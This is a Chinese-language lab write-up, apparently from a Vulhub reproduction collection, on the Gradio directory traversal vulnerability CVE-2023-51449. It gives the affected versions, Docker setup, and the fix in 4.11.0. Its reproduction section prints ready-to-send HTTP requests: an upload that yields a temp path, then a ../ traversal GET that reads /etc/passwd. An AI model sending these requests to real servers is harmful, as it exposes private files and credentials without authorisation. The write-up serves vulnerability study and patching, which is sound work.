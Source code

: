 # Python Gradio 目录穿越漏洞 CVE-2023-51449

## 漏洞描述

Gradio 是一个 Python 库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化 Web 界面。

在 Gradio 4.11 及更早版本中，如果未启用身份验证，知道文件路径的攻击者可以使用公共 URL 访问运行 Gradio 应用程序的服务器上的任意文件。

参考链接：

- [gradio-app/gradio#6833](https://github.com/gradio-app/gradio/pull/6833)
- https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2

## 漏洞影响

```
Gradio < 4.11.0
```

## 环境搭建

Vulhub 执行如下命令启动一个由 Gradio 4.10.0 编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过 `http://your-ip:7860` 访问该应用。

![](images/Python%20Gradio%20目录穿越漏洞%20CVE-2023-51449/image-20250526162114711.png)

## 漏洞复现

首先，使用 upload 接口上传任意文件，获取一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: your-ip:7860
Pragma: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6MhLjMxNrDeOYqzr
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Length: 44

------WebKitFormBoundary6MhLjMxNrDeOYqzr--
Content-Disposition: form-data; name="files";filename="test"
Content-Type: application/octet-stream

test
------WebKitFormBoundary6MhLjMxNrDeOYqzr--
```

![](images/Python%20Gradio%20目录穿越漏洞%20CVE-2023-51449/image-20250506110008190.png)

获得可访问的文件路径后，利用 file 接口配合目录穿越，即可读取服务器上的任意文件，例如 `/etc/passwd`：

```
GET /file=/tmp/gradio/a94a8fe5ccb19ba61c4c0873d391e987982fbbd3/../../../../../../etc/passwd HTTP/1.1
Host: your-ip:7860
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate
```

![](images/Python%20Gradio%20目录穿越漏洞%20CVE-2023-51449/image-20250506110238195.png)

## 漏洞修复

该漏洞在 `gradio==4.11.0` 中被修复。
